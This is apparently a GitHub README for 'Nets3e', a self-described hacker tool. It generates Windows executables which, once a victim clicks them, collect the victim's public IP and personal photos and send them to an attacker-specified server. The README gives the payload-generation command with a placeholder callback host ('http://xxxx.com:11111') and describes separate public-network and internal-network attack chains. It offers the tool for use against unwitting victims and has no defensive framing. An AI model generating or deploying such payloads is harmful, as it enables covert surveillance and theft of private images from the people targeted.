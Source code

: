   <div align="center">
<p align="center">
 <img title="Nets3e" src=`'`https://img.shields.io/badge/Nets3e-1.1.1-brightgreen.svg' />
 <img title="Nets3e" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="Nets3e" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="Nets3e" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="Nets3e" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
 </p>
  <img height="137px" src="https://github-readme-stats.vercel.app/api?username=MartinXMax&hide_title=true&hide_border=true&show_icons=trueline_height=21&text_color=000&icon_color=000&bg_color=0,ea6161,ffc64d,fffc4d,52fa5a&theme=graywhite" />
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Obtain the victim's public network IP and personal photos</th>
    <th>Internal shortest path attack</th>
  
</tr>
 
 </table>
</div>


  
## Nets3e Example

``#python3 Nets3e.py -h``

![图片名称](./PT/help.png) 

```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``

![图片名称](./PT/1.png) 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

![图片名称](./PT/2.png) 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``




![图片名称](./PT/out.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Re.png) 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``



![图片名称](./PT/in.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Debug.png) 

